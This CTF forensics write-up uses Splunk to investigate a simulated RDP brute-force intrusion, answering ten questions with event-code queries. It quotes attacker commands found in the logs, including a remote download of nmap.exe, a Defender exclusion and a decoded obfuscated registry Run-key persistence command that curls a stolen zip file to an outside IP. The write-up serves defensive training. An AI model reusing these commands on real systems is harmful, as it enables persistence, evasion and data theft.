first we got an OVF file to run in vmware, as a setup for our Splunk, together with its credentials `ihack24:root`



after logging in you need to check your vm's ip and make sure your network setup is properly configured, for me i'm using NAT



after running `ifconfig` to grab the vm's ip we can now take a look at its splunk setup by going to `{vm's ip}:8000` in our host machine browser



in the provided question the splunk creds provided is `player:beg_to_dfir`



now to take a look at the vm's splunk data just go to common task > search your data > query `index=*` > change presets from `last 24 hours` to `All Time`



## Happy SPLUNKing #1

from the first question here is what we need to focus on:-
- RDP Brute Force Attack
- Timestamp 23rd July
- find victim user account and its ip

referring to this cheatsheet (https://www.socinvestigation.com/windows-rdp-event-ids-cheatsheet/) that I found, you failed attempt to login is apart of EventCode `4625` is related rdp failure logon status

therefore in the query presets change to last 7 days, filter EventCode `4625` and scroll all the way to 23rd July

query `index=* EventCode=4625`



here what we got is the username of the victim which is `admin` to find its source ip go to query and search for admin

query `index=* admin`



as you can see there is the ip `192.168.8.52`

flag `ihack24{admin:192.168.8.52}`

## Happy SPLUNKing #2

find ip attacker

query `index=* EventCode=4625`



flag `ihack24{192.168.8.41}`

## Happy SPLUNKing #3

find TimeStamp access login

referring to the cheatsheets success login rdp EventCode is `4624` therefore add it to the query

query `index=* (EventCode=4624 OR EventCode=4625)`, find out when the EventCode changes that is going to be the timestamp



flag `ihack24{07/23/2024 09:55:52 PM}`

## Happy SPLUNKing #4

find attacker's first command after attack

include the CommandLine filter in the query search, and add cmd to filer the cmd.exe ParentImage

query `index=* cmd CommandLine=*` 

at this timestamp this is not actually the command that the attacker first attack it is used to execute cmd.exe



at this timestamp is actually the command that the attacker used



flag `ihack24{systeminfo}`

## Happy SPLUNKing #5

find the path being excluded from detection of Windows Defender

here is the part of PowerShell parameter to exclude a directory, therefore just filter it



query `index=* exclusionpath`

viola



`flag ihack24{C:\Windows\microsoft}`

## Happy SPLUNKing #6

find backdoor ip address

at the same query, but when scrolling down there is an interesting PowerShell command executed by the attacker, using the url with ip `157.230.33.7`

`Invoke-WebRequest -Uri "http://157.230.33.7:8080/nmap.exe" -OutFile "nmap.exe"`



filtering it at the query we found this, the attacker sent something to that IP, probably the information of the victim's machine, therefore we concluded that will be the backdoor IP



flag `ihack24{157.230.33.7}`

## Happy SPLUNKing #7

find data that has been exfilterated

looking at the previous image it also includes the filename and extension that has been exfiltrated, therefore the flag is

flag `ihack24{DESKTOP-9O75B7U.zip}`

## Happy SPLUNKing #8

tools dropped by attacker to find other host

from the previous inspection (Happy SPLUNKing #6) we stumble across nmap.exe, researching on the internet, it is confirmed that, nmap is capable of doing network inspection



flag `ihack24{nmap.exe}`

## Happy SPLUNKing #9

find out the user and password the attacker added

when adding a new user in windows, the command always contains `add` therefore just filter it with CommandLine fields together with the word `add`

query `index=* CommandLine=* add`



flag `ihack24{operator:operator123}`

## Happy SPLUNKing #10

attacker command used for persistence

when filtering the the ip address of `157.230.33.7` to investigate the backdoor ip address further, luckily we found a strange (obsufcated?) PowerShell command



`&( $shEllid[1]+$SheLLid[13]+'x')` -> decodes to iex, which is also known as `Invoke-Expression` in PowerShell

`(-JOin (( 68, 83, ... 25,80 )))` -> joins the array of numbers into a single string, and it is also processed inside the `ForEACh-oBJeCT` block

`ForEACh-oBJeCt{[CHAR] ( $_-BxoR "0x36")}` basically a bitwise XOR command with `0x36` on each number in the array

create a python script to decode it

```python
numbers = [
    68, 83, 81, 22, 87, 82, 82, 22, 17, 126, 125, 122, 123, 106, 101, 89, 80, 66, 65, 87, 68, 83, 106, 123, 95, 85, 
    68, 89, 69, 89, 80, 66, 106, 97, 95, 88, 82, 89, 65, 69, 106, 117, 67, 68, 68, 83, 88, 66, 96, 83, 68, 69, 95, 
    89, 88, 106, 100, 67, 88, 17, 22, 25, 64, 22, 68, 83, 70, 89, 68, 66, 22, 25, 66, 22, 100, 115, 113, 105, 101, 
    108, 22, 25, 82, 22, 17, 85, 91, 82, 24, 83, 78, 83, 22, 25, 85, 22, 85, 67, 68, 90, 22, 27, 110, 102, 121, 101, 
    98, 22, 7, 3, 1, 24, 4, 5, 6, 24, 5, 5, 24, 1, 25, 67, 70, 90, 89, 87, 82, 22, 27, 112, 22, 80, 95, 90, 83, 69, 
    11, 118, 117, 12, 106, 99, 69, 83, 68, 69, 106, 87, 82, 91, 95, 88, 106, 114, 89, 85, 67, 91, 83, 88, 66, 69, 
    106, 114, 115, 101, 125, 98, 121, 102, 27, 15, 121, 1, 3, 116, 1, 99, 24, 76, 95, 70, 17, 22, 25, 80
]

decoded_message = ''.join([chr(num ^ 0x36) for num in numbers])
print(decoded_message)
```

flag `ihack24{'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' /v report /t REG_SZ /d 'cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Documents\DESKTOP-9O75B7U.zip' /f}`

